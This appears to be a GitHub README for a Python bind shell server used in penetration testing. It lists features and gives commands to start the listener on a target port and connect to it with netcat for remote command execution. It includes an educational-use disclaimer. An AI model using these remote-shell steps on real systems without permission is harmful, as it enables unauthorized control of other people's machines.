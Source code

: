 # Bind Shell Server
This Python-based bind shell server allows remote command execution on a target machine by listening for incoming connections on a specified port. Once a client connects, it can send commands to be executed on the server, and the output is returned to the client. This tool is intended for educational purposes, penetration testing, and understanding network security concepts.

# Features
* Command Execution: Execute shell commands on the target machine and receive the output.
* Multi-threading: Handle multiple client connections simultaneously using threads.
* Customizable Port: Specify the port on which the server listens for incoming connections.
# Requirements
* Python 3.x
* click library (install via pip install click)

# Usage
  Clone the repository:
  ```
  git clone https://github.com/yourusername/bind-shell-server.git
  cd bind-shell-server
  ```
  Run the server on the target:
  ```
  python bind_shell_server.py --port 4444
  ```
  Connect to the server from a client:
  ```
  nc <server_ip> 4444 -nv
  ```
# Important Note
This tool is intended for educational purposes only. Ensure you have permission to test any systems you connect to, and use it responsibly.
